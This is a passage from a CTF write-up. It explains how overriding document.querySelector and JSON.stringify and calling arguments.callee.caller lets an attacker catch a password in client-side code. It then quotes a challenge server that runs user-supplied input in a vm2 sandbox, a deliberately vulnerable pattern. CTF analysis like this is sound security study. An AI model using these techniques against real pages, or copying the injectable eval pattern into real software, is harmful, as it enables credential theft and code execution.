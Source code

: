 Now, if we can execute the code before the last line, we can do some interesting things.

We can first overwrite `document.querySelector`, and then overwrite `JSON.stringify`, like this:

``` js
document.querySelector = function() {
  JSON.stringify = function(data) {
    
  }
}
```

After overriding, what can we do? After overriding, we can use `arguments.callee.caller` to access the outermost anonymous async function and then call it again! After calling it again, another request will be sent, and we can intercept the password by using `JSON.stringify`:

``` js
document.querySelector = function() {
  JSON.stringify = function(data) {
    console.log(data.password) // flag
  };
  arguments.callee.caller()
}
```

This unexpected solution comes from [@dr_brix](https://twitter.com/dr_brix), which is really cool. I never thought it could be done this way.

## web/vm-calc(2 solves)

Adding a calculation function is a common type of problem in CTF. At first glance, it seems to be a VM escape, and the core code is as follows:

``` js
const { NodeVM } = require('vm2');
const vm = new NodeVM({
    eval: false,
    wasm: false,
    wrapper: 'none',
    strict: true
});

app.post("/", (req, res) => {
    const { calc } = req.body;

    if(!calc) {
        return res.render("index");
    }

    let result;
    try {
        result = vm.run(`return ${calc}`);
    }
    catch(err) {
        console.log(err);
        return res.render("index", { result: "There was an error running your calculation!"});
    }

    if(typeof result !== "number") {
        return res.render("index", { result: "Nice try..."});
    }

    res.render("index", { result });
});
```
